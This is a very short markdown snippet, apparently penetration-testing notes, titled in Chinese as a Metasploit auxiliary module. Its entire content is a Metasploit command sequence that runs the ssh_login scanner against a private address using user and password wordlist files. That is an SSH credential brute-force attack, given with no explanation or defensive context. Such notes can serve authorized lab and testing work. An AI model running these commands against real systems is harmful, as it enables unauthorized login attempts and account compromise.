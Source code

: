 ## msf辅助模块

```
msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.142.66
set PASS_FILE /root/vuln/pass
set USER_FILE /root/vuln/user
exploit
```

